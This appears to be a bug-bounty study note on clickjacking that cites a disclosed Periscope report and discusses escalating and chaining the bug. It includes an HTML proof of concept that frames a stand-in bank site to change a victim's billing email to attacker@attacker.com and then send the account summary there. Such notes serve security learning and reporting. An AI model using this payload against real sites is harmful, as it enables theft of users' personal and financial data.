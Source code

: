 >[!Periscope]
>is a live streaming video application, and on July 10, 2019, it was found to be vulnerable to a clickjacking vulnerability, You can find the disclosed bug report at https://hackerone.com/reports/591432/

The site was using the `X-Frame-Options:ALLOW-FROM` directive to prevent clickjacking
but it’s an obsolete directive that isn’t supported by many browsers. This means that all features on the subdomains https://canary-web.pscp.tv and https://canary-web.periscope.tv were vulnerable to clickjacking if the victim was using a browser that didn’t support the directive, such as the latest Chrome, Firefox, and Safari browsers, an attacker could for example, frame the settings page and trick users into deactivating their accounts.

# Escalating the Attack

>Focus on the application’s ==most critical functionalities== to achieve maximum business impact like (bank transfers functionalities)

## Chaining with other vulns
applications often send or disclose information according to user preferences. If you can change these settings via clickjacking, you can often induce sensitive information disclosures
### example of clickjacking chain
Let’s say that `bank.example.com` contains multiple clickjacking. One of them allows attackers to change an account’s billing email, and another one allows attackers to send an account summary to its billing email. The malicious page’s HTML looks like this:
#### HTML code example to chain two clickjacking vulns
```html
<html>
 <h3>Hunter</h3>
 <!--changing the victim email first to your own account-->
 <iframe 
 src="https://bank.example.com/change_billing_email?email=attacker@attacker.com" 
 width="500" height="500">
 </iframe>
 <!--then make the victim send an account summary to your email address to leak the information contained in the account summary report-->
 <iframe src="https://bank.example.com/send_summary" width="500" height="500">
 </iframe>
</html>
```
- you might be able to collect data including the street address, phone numbers, and credit card information associated with the account!
- Note that for this attack to succeed, the victim user would have to click the attacker’s site twice



## Chaining with CSRF 
Exploit Clickjacking to achieve CSFRF
look at [[CROSS-SITE REQUEST FORGERY (CSRF)#Exploit Clickjacking]] for more info
# A Note on Delivering the Clickjacking Payload
Often in bug bounty reports, you’ll need to show companies that real attackers could effectively exploit the vulnerability you found. That means you need to understand how attackers can exploit clickjacking bugs in the wild
